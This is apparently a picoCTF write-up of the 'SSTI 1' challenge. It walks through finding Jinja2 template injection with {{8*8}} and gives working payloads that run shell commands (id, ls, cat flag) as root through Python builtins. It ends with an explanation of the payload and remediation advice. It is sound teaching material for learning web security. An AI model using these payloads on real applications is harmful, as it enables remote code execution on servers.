





# SSTI 1

**Platform:** picoCTF  
**Category:** Web Exploitation  
**Difficulty:** 🟢 Easy  
**Tags:** `ssti` `jinja2` `template-injection` `rce` `python`

---

## Challenge Description

**Author:** Venax
**Description**

I made a cool website where you can announce whatever you want! Try it out!

Additional details will be available after launching your challenge instance.

---

## Reconnaissance

Navigating to the challenge URL presents a simple input field. Whatever you
type is reflected back to you on the page when you click OK.



---

## Testing for SSTI

The first thing to test when you see reflected input is whether the application
is **evaluating** what you type rather than just displaying it.

Inject a simple arithmetic expression using template syntax:

```
{{8*8}}
```



The page returns **64** instead of the literal string `{{8*8}}` — this confirms
the application is executing our input server-side.

**Why `{{ }}`?** Double curly braces are the standard expression delimiter in
popular template engines like **Jinja2**, **Twig**, and **Pebble**. The fact
that this syntax was evaluated narrows the engine down — combined with the
Python/Flask stack, this is almost certainly **Jinja2**.

---

## Exploitation

### Step 1 — Identify Current User

Confirm what privileges we have by running the `id` command via Jinja2's
access to Python builtins:

```
{{ request.application.__globals__.__builtins__.__import__('os').popen('id').read() }}
```



The response shows we are running as **root** — meaning we have full system
privileges. This significantly increases the impact of the vulnerability.

---

### Step 2 — List the Directory

Enumerate files in the current working directory:

```
{{ request.application.__globals__.__builtins__.__import__('os').popen('ls').read() }}
```



A file named `flag` is visible in the current directory.

---

### Step 3 — Read the Flag

```
{{ request.application.__globals__.__builtins__.__import__('os').popen('cat flag').read() }}
```



---

## Flag

```
picoCTF{s4rv3r_s1d3_xxxxxxxx_xxxxxxxxxx_xxx_xxxx_xxxxxxxx}
```
*(Flag redacted)*

---

## How the Payload Works

Breaking down the exploit step by step:

| Part | What it does |
|---|---|
| `request.application` | Accesses the Flask application object |
| `.__globals__` | Gets the global variables of the app's module |
| `.__builtins__` | Accesses Python's built-in functions |
| `.__import__('os')` | Imports the `os` module dynamically |
| `.popen('cmd').read()` | Runs a shell command and reads the output |

This chain works because Jinja2 runs inside the Python process and has access
to the Python runtime — there is no sandboxing in place to prevent it.

---

## Key takeaways

| # | Lesson |
|---|--------|
| 1 | **Template engines** generate HTML by combining templates with data. Placeholders like `{{username}}` are filled at render time |
| 2 | **Different engines use different markers** — `{{ }}` (Jinja2/Twig), `<% %>` (ERB), `[[ ]]` (others). Recognising the syntax helps fingerprint the engine |
| 3 | **SSTI occurs when user input is embedded directly into a template** instead of being passed as safe data — the engine then evaluates it as code |
| 4 | **If the server runs as root**, SSTI escalates from a code injection to full system compromise |
| 5 | **Always test reflected input** with template syntax — if arithmetic evaluates, the app is vulnerable |
| 6 | **SSTI can lead to RCE** — an attacker can read files, list directories, exfiltrate secrets, or even establish a reverse shell |

---

## How to Fix This

For completeness, here is what the developer should have done:

- **Pass user input as data, never as part of the template string**
```python
  # Vulnerable
  template = Template("Hello " + user_input)

  # Safe
  template = Template("Hello {{ name }}")
  template.render(name=user_input)
```
- Run the application as a **non-privileged user**, not root
- Apply a **Jinja2 sandbox environment** if dynamic templates are truly needed

---

## 🔗 References

- [OWASP - Server Side Template Injection](https://owasp.org/www-project-web-security-testing-guide/v41/4-Web_Application_Security_Testing/07-Input_Validation_Testing/18-Testing_for_Server_Side_Template_Injection)
- [PortSwigger SSTI Research](https://portswigger.net/research/server-side-template-injection)
- [Jinja2 Documentation](https://jinja.palletsprojects.com/)
- [PayloadsAllTheThings - SSTI](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection)
- [picoCTF](https://picoctf.org)

---

*← [Back to Web Exploitation](../../) | [Back to picoCTF](../../../)*

*← [Back to Web Exploitation](../../) | [Back to picoCTF](../../../)*
